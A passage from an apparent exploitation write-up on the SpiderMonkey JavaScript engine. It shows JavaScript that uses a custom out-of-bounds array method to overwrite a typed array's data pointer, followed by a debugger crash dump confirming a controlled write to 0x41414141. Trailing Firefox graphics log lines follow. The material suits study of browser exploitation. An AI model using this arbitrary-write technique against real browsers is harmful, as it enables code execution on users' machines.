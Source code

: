 ```
0x10a04c0006c0->0x10a04c000728 is 0x68 bytes (0xd words)
```

`b`'s data pointer is at `0x10a04c000728` and `a`'s elements are at
`0x10a04c0006c0`. This means that we can overwrite `b`'s data pointer by writing
to the 13th element with `oob`.

```js
let converter = new ArrayBuffer(8);
let u64view = new BigUint64Array(converter);
let f64view = new Float64Array(converter);

// Bit-cast an uint64_t to a float64
function i2d(x) {
    u64view[0] = x;
    return f64view[0];
}

// Bit-cast a float64 to an uint64_t
function d2i(x) {
    f64view[0] = x;
    return u64view[0];
}

let a = new Array(1,2,3,4,5,6);
let b = new BigUint64Array(1);

a.oob(13, i2d(0x41414141n))
b[0] = 0n
```

This crashes by trying to write 0 to 0x41414141, exactly like we would expect:

```
Thread 1 "js" received signal SIGSEGV, Segmentation fault.
0x000022760cf0b110 in ?? ()
────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────────────────────
 RAX  0x41414141
 RBX  0x7fffffffc3c8 —▸ 0xbec6100898 —▸ 0x109615e65ac0 —▸ 0x109615e3b2b0 —▸ 0x555557664960 (js::TypedArrayObject::classes+480) ◂— ...
 RCX  0x41414141
 RDX  0xfff9800000000000
 RDI  0x41414141
 RSI  0x0
 R8   0x7fffffffc798 ◂— 0xffffffffffffffff
 R9   0x7fffffffc468 ◂— 0x0
 R10  0xffff800000000000
 R11  0x7fffffffc620 ◂— 0x0
 R12  0xfffdffffffffffff
 R13  0xbec6100898 —▸ 0x109615e65ac0 —▸ 0x109615e3b2b0 —▸ 0x555557664960 (js::TypedArrayObject::classes+480) —▸ 0x55555574f29b ◂— ...
 R14  0x7fffffffc798 ◂— 0xffffffffffffffff
 R15  0x0
 RBP  0x7fffffffc390 —▸ 0x7fffffffc400 —▸ 0x7fffffffc500 —▸ 0x7fffffffc8e0 —▸ 0x7fffffffc930 ◂— ...
 RSP  0x7fffffffc358 —▸ 0x555556b2a783 ◂— jmp    0x555556b2a8e1
 RIP  0x22760cf0b110 ◂— mov    qword ptr [rdi], rsi
──────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────
 ► 0x22760cf0b110    mov    qword ptr [rdi], rsi
   0x22760cf0b113    ret 
```


[GFX1-]: glxtest: libpci missing
[GFX1-]: glxtest: libGL.so.1 missing
[GFX1-]: glxtest: libEGL missing
[GFX1-]: No GPUs detected via PCI
[GFX1-]: RenderCompositorSWGL failed mapping default framebuffer, no dt